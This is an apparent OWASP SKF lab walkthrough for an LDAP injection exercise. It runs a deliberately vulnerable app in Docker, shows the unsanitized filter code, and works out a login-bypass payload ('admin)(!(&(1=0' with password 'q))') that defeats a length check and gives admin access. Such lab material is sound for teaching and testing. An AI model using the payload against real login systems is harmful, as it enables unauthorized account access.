 # Ldap Injection - harder

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:ldap-injection-harder
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:ldap-injection-harder
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements using a local proxy. This could result in the execution of arbitrary commands such as granting permissions to unauthorized queries, and content modification inside the LDAP tree. The same advanced exploitation techniques available in SQL Injection can be similarly applied in LDAP Injection.

Let's open the app.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Ldap-Harder/1.png)

Trying to loggin with a random username and password.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Ldap-Harder/2.png)

The application architecture that supports LDAP includes both server-side and client-side components. The LDAP queries submitted to the server are known as LDAP search filters, which are constructed using prefix notation. Below is an example of an LDAP search filter:

```text
find("(&(cn=" + username +")(userPassword=" + pass +"))")
```

This prefix filter notation instructs the query to find an LDAP node with the given username and password.

## Exploitation

Let's check the app.js file.

```python
search_filter = "(&(cn="+username+")(sn="+password+"))"
```

We can see that the filter is constructed by concatenating the username and password directly into the filter without proper sanitization. If we replace the username and password with a special character we can bypass authentication controls. Using \* as the username and password will result in a successful login.

```python
search_filter = "(&(cn=" * ")(sn=" * "))";
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Ldap-Harder/3.png)

No luck, maybe this application is sanitizing the user input somehow, let's check the code again.

```python
if(len(secret) < 2):
	return render_template("index.html", result = "The secret answer is at least 2 character long.")
```

The approach here to avoid LdaP injection was to check for the length of the user input. If the length is less than 2, the user input is invalid.
Unfortunately for the developer, this approach is not very secure. Special characters other than "\*" can also be used to create malicious queries.

```text
username = admin)(!(&(1=0
password = q))
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Ldap-Harder/4.png)

We successfully logged in as the Admin.

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/LDAP_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/LDAP_Injection_Prevention_Cheat_Sheet.html" %}

{% embed url="https://www.synopsys.com/glossary/what-is-ldap-injection.html" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md" %}
